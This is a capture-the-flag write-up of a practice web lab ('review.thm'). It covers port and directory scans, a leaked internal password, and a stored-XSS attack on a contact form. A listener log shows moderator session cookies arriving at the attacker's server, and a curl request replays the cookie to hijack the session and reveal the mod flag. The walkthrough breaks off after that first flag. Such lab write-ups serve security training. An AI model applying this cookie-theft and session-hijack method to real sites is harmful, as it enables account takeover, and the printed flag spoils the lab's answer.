

## Sequence (MAX) Room

Room Description: Chain multiple vulnerabilities to take control of a system.

> Robert made some last-minute updates to the `review.thm` website before heading off on vacation. He claims that the secret information of the financiers is fully protected. But are his defenses truly airtight? Your challenge is to exploit the vulnerabilities and gain complete control of the system.


---

## Objectives: 

1. What is the flag value after logging in as mod?
2. What is the flag value after logging in as admin?
3. What is the flag value after getting root access to the system?

---

## Enumeration & Recon

> Rustscan results:

```
rustscan -a 10.130.163.54 --range 1-65535 --ulimit 5000 -- -sCV -O
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Scanning ports like it's my full-time job. Wait, it is.

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.130.163.54:22
Open 10.130.163.54:80
[~] Starting Script(s)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 00:a0:7c:b4:72:c4:ab:0b:32:53:c8:23:d6:6d:40:20 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDJrz2g2U1QZagHP2NdXVtD/85sqtN5ct2ut+j66Al23mu6sBNb5kFTsL5/3EEA4xOOYy0H3zxt1AGicZN1ORAtJto2i9SnkQIimDDSZzgJPm8Q+okUWTbHQCS+pqU1u+ZSmsOJ3zX7lBoRGcnQ9jq4Lb8tAa5oyJB7CkjdWqY8tLAXoIUgLiJ/AMmpqdXoq+SYD7/7LYtnH9BaNTILYxV2gt+XF4ra1Uw+hKiqZzqCxZLBiB6/ylOoW0HCBAHK6/2vqwt+6+iBOUfs2PA/J2XWhGq0y2Sc7lOJ8NSjAZOlfQB9qKcVjPnIHx2oag3oH2y6EpJ/96QP7JaRvU/PjtHDGH4bxD9lE/ANh8VoqJdc+8OxTotP05GFXhxsc7P+XiaC+3gI1BkfOC24DxPQulLCxou1/S6MehrWpANI2jOhF9PyEwGj3+dpWAZ8G2wTIjTDKlQEHdCrtwmVi16ONoYbqnEDglFtcxEfLHs9j35KxrSwJBgy0MJvJlKXYEWdypU=
|   256 70:25:f8:fc:8f:22:7f:b1:94:98:ea:46:ad:ad:83:a8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDsl0PwaED4esjCDgwaQDuVTAmWkvrzbPBXmR2dgV7CWpafv0vovM0J9sAVwp70B9vfxAOeIQrjkqwHI3nbc+X8=
|   256 f5:df:8b:87:ef:f9:57:de:4e:cf:aa:77:2a:5d:cd:42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAPMMnjzQh141/wUw+GpJVzsXUcvSzS42Bw3q04F5H+9
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Review Shop
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Linux 5.X|6.X|4.X (96%), Google Android 10.X|11.X|12.X|9.X (93%)
```


---


## Feroxbuster results:

```
feroxbuster -u http://10.130.163.54 -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt   
                                                                                                                                                                   
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.130.163.54/
 🚩  In-Scope Url          │ 10.130.163.54
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       86l      175w     2246c http://10.130.163.54/contact.php
302      GET       59l      116w     1400c http://10.130.163.54/dashboard.php => login.php
200      GET       78l      153w     1944c http://10.130.163.54/login.php
200      GET        6l     2304w   232914c http://10.130.163.54/bootstrap.min.css
200      GET       68l      142w     1694c http://10.130.163.54/
301      GET        9l       28w      319c http://10.130.163.54/javascript => http://10.130.163.54/javascript/
301      GET        9l       28w      313c http://10.130.163.54/mail => http://10.130.163.54/mail/
200      GET       16l       99w      701c http://10.130.163.54/mail/dump.txt
301      GET        9l       28w      319c http://10.130.163.54/phpmyadmin => http://10.130.163.54/phpmyadmin/
301      GET        9l       28w      316c http://10.130.163.54/uploads => http://10.130.163.54/uploads/
301      GET        9l       28w      326c http://10.130.163.54/javascript/jquery => http://10.130.163.54/javascript/jquery/
301      GET        9l       28w      323c http://10.130.163.54/phpmyadmin/doc => http://10.130.163.54/phpmyadmin/doc/
200      GET       98l      278w    35231c http://10.130.163.54/phpmyadmin/favicon.ico
301      GET        9l       28w      326c http://10.130.163.54/phpmyadmin/locale => http://10.130.163.54/phpmyadmin/locale/
301      GET        9l       28w      322c http://10.130.163.54/phpmyadmin/js => http://10.130.163.54/phpmyadmin/js/
200      GET    10365l    41507w   271809c http://10.130.163.54/javascript/jquery/jquery
301      GET        9l       28w      323c http://10.130.163.54/phpmyadmin/sql => http://10.130.163.54/phpmyadmin/sql/
301      GET        9l       28w      331c http://10.130.163.54/phpmyadmin/js/designer => http://10.130.163.54/phpmyadmin/js/designer/
301      GET        9l       28w      336c http://10.130.163.54/phpmyadmin/doc/html/_static => http://10.130.163.54/phpmyadmin/doc/html/_static/
301      GET        9l       28w      329c http://10.130.163.54/phpmyadmin/locale/da => http://10.130.163.54/phpmyadmin/locale/da/
301      GET        9l       28w      326c http://10.130.163.54/phpmyadmin/themes => http://10.130.163.54/phpmyadmin/themes/
...
```

> I instantly jumped at /mail/dump.txt, and discovered new endpoints and emails. 

```dump.txt
From: software@review.thm
To: product@review.thm
Subject: Update on Code and Feature Deployment

Hi Team,

I have successfully updated the code. The Lottery and Finance panels have also been created.

Both features have been placed in a controlled environment to prevent unauthorized access. The Finance panel (`/finance.php`) is hosted on the internal 192.x network, and the Lottery panel (`/lottery.php`) resides on the same segment.

For now, access is protected with a completed 8-character alphanumeric password (S60u}f5j), in order to restrict exposure and safeguard details regarding our potential investors.

I will be away on holiday but will be back soon.

Regards,  
Robert
```

> I tried default credentials for phpMyAdmin login page, like root:null, and root:password etc, then searched for CVEs for the version 4.9.5, but only found an XSS vulnerability, which was not handy.


---

Then when I saw `contact.php` I thought what if we could use stored XSS to fetch mod or admin cookies and send them to me?



> And I started receiving session ids:

```bash
┌──(root㉿kali)-[~]
└─# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.130.163.54 - - [11/Jul/2026 05:20:13] code 404, message File not found
10.130.163.54 - - [11/Jul/2026 05:20:13] "GET /a.jpgPHPSESSID%3Dko0bat5sgu5mvsjv6af0tdfrub HTTP/1.1" 404 -
10.130.163.54 - - [11/Jul/2026 05:20:15] code 404, message File not found
10.130.163.54 - - [11/Jul/2026 05:20:15] "GET /a.jpgPHPSESSID%3Dko0bat5sgu5mvsjv6af0tdfrub HTTP/1.1" 404 -
10.130.163.54 - - [11/Jul/2026 05:20:18] code 404, message File not found
10.130.163.54 - - [11/Jul/2026 05:20:18] "GET /a.jpgPHPSESSID%3Dko0bat5sgu5mvsjv6af0tdfrub HTTP/1.1" 404 -
10.130.163.54 - - [11/Jul/2026 05:20:20] code 404, message File not found
10.130.163.54 - - [11/Jul/2026 05:20:20] "GET /a.jpgPHPSESSID%3Dko0bat5sgu5mvsjv6af0tdfrub HTTP/1.1" 404 -
^C
Keyboard interrupt received, exiting.
```

> Then I used curl to test the session id:

```
┌──(root㉿kali)-[~]
└─# curl http://review.thm/dashboard.php -H 'Cookie: PHPSESSID=ko0bat5sgu5mvsjv6af0tdfrub' 

<!DOCTYPE html>
<html>
<head>
    <title>Review Shop</title>
    <link href="/bootstrap.min.css" rel="stylesheet">
        <style>
/* Override Bootstrap's .bg-primary with a custom dark background */
.bg-primary {
  background-color: #212c42 !important;
  color: #ffffff !important;
}

/* Ensure links inside navbar remain visible */
.navbar-dark .navbar-nav .nav-link {
  color: #ffffff;
}

.navbar-dark .navbar-nav .nav-link:hover {
  color: #d1d9e6;
}

/* Optional: Style the navbar-brand */
.navbar-dark .navbar-brand {
  color: #ffffff;
}

.navbar-dark .navbar-brand:hover {
  color: #d1d9e6;
}
</style>

</head>
<body class="bg-light">


<nav class="navbar navbar-expand-lg navbar-dark bg-primary">
  <div class="container-fluid">
    <a class="navbar-brand" href="dashboard.php">Review Shop</a>
    <button class="navbar-toggler" type="button" data-bs-toggle="collapse" data-bs-target="#navbarNav">
      <span class="navbar-toggler-icon"></span>
    </button>
  
    <div class="collapse navbar-collapse" id="navbarNav">
      <ul class="navbar-nav me-auto">
        <li class="nav-item">
          <a class="nav-link" href="dashboard.php">Home</a>
        </li>

                  <li class="nav-item">
            <a class="nav-link" href="chat.php">Chat</a>
          </li>
          
                      <li class="nav-item">
              <a class="nav-link" href="admin_view.php">View Feedback</a>
            </li>
          
          <li class="nav-item">
            <a class="nav-link" href="settings.php">Settings</a>
          </li>

                        <li class="nav-item">
            <a class="nav-link" href="contact.php">Contact Us</a>
          </li>
                  
                                           
                                                        <li class="nav-item">
            <a class="nav-link" href="contact.php">THM{M0dH@ck3dPawned007}</a>
                          
                                  
      </ul>

              <span class="navbar-text me-3">Hi, mod</span>
        <a href="logout.php" class="btn btn-outline-light btn-sm">Logout</a>
          </div>
  </div>
</nav>

<body class="bg-light">

<div class="container mt-4">
    <div class="card p-4 shadow-sm">
        <h2>Welcome, mod!</h2>
        <p class="lead">You are logged in as <strong>mod</strong>.</p>

        <div class="mb-3">
            <a href="logout.php" class="btn btn-outline-danger me-2">Logout</a>
                            <a href="admin_view.php" class="btn btn-primary me-2">View Feedback</a>
                        <a href="chat.php" class="btn btn-success me-2">Open Chat</a>
            <a href="settings.php" class="btn btn-warning">Settings</a>
        </div>

        
        
                    <hr class="my-4">
            <h4>User Table</h4>
            <div class="table-responsive mt-3">
                <table class="table table-bordered table-hover bg-white">
                    <thead class="table-dark">
                        <tr>
                            <th>ID</th>
                            <th>Username</th>
                            <th>Role</th>
                        </tr>
                    </thead>
                    <tbody>
                                                    <tr>
                                <td>2</td>
                                <td>admin</td>
                                <td>admin</td>
                            </tr>
                                                    <tr>
                                <td>3</td>
                                <td>mod</td>
                                <td>mod</td>
                            </tr>
                                            </tbody>
                </table>
            </div>
            </div>
</div>

</body>
</html>
```

*** It definitely worked!! The response is totally different, which means I can send this request using burpsuite, and open the request on the browser.

